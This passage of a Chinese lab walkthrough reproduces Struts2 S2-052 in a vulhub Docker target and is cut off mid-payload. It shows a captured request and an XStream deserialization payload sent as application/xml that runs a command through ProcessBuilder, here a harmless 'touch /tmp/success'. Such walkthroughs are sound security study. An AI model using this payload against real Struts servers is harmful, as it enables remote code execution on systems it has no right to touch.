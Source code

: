 ```bash
# 从 vulhub 仓库根目录进入 s2-052 目录
cd struts2/s2-052
# 使用 docker 启动环境(可以修改同级目录下的 docker-compose.yml 文件以更改端口映射行为, 默认 8080:8080)
docker compose up -d
```

访问靶机 8080 端口 web 服务可以看到如下页面:

![image-20230608072835892](http://cdn.ayusummer233.top/DailyNotes/202306080728916.png)

任意编辑一条数据, 并使用 BurpSuit 抓包:

![image-20230608072903599](http://cdn.ayusummer233.top/DailyNotes/202306080729622.png)

![image-20230608072933452](http://cdn.ayusummer233.top/DailyNotes/202306080729503.png)

可以拦截到如下请求:

```http
POST /orders/3 HTTP/1.1
Host: 192.168.1.215:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 41
Origin: http://192.168.1.215:8080
Connection: close
Referer: http://192.168.1.215:8080/orders/3/edit
Cookie: JSESSIONID=C17E36303D6104B8D716519372F13B56
Upgrade-Insecure-Requests: 1

_method=put&clientName=Bob_test&amount=33
```

修改 `Content-Type` 为 `application/xml` 并将上面构造好的新建 `/tmp/success` 的 payload 贴在请求体中

```http
POST /orders/3/edit HTTP/1.1
Host: 192.168.1.215:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/xml
Content-Length: 2415

<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>touch</string>
                        <string>/tmp/success</string>
```